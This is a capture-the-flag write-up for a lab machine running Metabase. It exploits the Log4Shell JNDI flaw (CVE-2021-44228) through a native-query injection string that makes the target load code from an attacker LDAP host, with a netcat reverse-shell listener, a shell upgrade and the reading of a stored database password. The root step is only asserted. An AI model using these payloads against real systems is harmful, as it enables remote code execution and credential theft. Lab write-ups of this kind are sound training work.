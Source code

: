 ## Synopsis
Remote Code Execution vulnerability in apache Log4j2 ≤= 2.14.1

Allows attackers to execute arbitrary system command by loading code from an attacker-controlled LDAP server via the Java Naming Directory Interface JNDI reported by [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

## :scroll: TL:DR :scroll:
find **user** and **root flag** trough remote code execution. Therefore use this  [exploit](https://github.com/pimps/JNDI-Exploit-Kit/) and setup `netcat` using kali linux as our OS.  
## :rocket: getting started :rocket:
We add the `domain` and `ip` to `/etc/hosts` .
```
echo "10.10.69.123 metabase.htb" | sudo tee -a /etc/hosts
```
## enumeration
As we start with a `nmap` scan it revails a `nginx server` listening on port 80 and we are redireted to `metabase.htb` .

We also look for something interesting in source code with `curl`
```sh
curl -v metabase.htb
```


## Expliotation
We found the information here for `JNDI injections` vulnerabilities. Public expliots are available. We look for  a suitable [exploit](https://github.com/pimps/JNDI-Exploit-Kit/) and download the available compiled version to our kali linux:
```sh
wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```

Now we can run the exploit by specifiying the LDAP server adress `IP:port` with the `-L` option and the adress of our listener with the `-S` option:

```sh
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.7:1389 -S 10.10.14.22:4444
```

## Privilege Escalation
Getting prepared for privilege escalation we have to setup `netcat` and we listen on port `4444`.
```sh
nc -lvnp 4444
```

We pick the LDAP payload targeting with `trustURLCodebase=true` and type the following string to the Native query Matabase page

NOTE: While suggesting otherwise the option `JDK 1.8` was not working for me.

We add a query in `sample data`:
```sh
${jndi:ldap://10.10.14.7:1389/57sbhf}
```
![db query](../img/db_query.png)

Now we see in our terminal a succesfull privilege escalation en try to upgrade our shell to a fully interactive pty. Due to the fact `python3` is installed on the host, we run:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

in the metabase group we can search for files:
```sh
find / -group metabase -ls 2>/dev/null | grep -v /proc

```
A password is found in `/etc/default/metabase`:
```sh
cat /etc/default/metabase
MB_DB_PASS=fHj3sxZ0.f
```

## Wrap it up!
The rootflag is found in `root/root.txt`


## :old_key:NOTES:

### :mortar_board: Lessens learned
1. JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints.
2. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
3. Make proper notes, I did not make all the notes carefully :bowtie:
